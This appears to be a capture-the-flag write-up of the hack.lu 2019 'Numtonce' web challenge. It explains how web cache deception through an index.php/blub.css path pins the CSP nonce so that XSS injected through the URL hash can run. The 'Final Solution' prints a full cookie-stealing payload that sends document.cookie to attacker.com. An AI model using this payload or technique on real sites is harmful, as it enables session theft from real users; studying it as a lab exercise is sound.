```yaml
---
title:  "Numtonce"
date:   "2019-10-27"
tags: ["web", "XSS", "CSP", "hacklu2019"]
author: "Alain K."
coverImagePath: "img/hacklu2019_website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](img/hacklu2019_website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if noncee tag is correct. Idea is to 
force the noncee tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the noncee in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to submit an URL to. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script noncee="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](img/hacklu2019_csp.png)
A CSP header was set to not allow scripts, except if the noncee tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'noncee-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The noncee is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The noncee token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {noncee} being the CSP noncee token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script noncee="{noncee}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct noncee:
`document.write('<script noncee="{noncee}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script noncee="{noncee}">document.write('<script noncee="{noncee}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{noncee} being the CSP noncee token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the noncee of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct noncee is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid noncee!

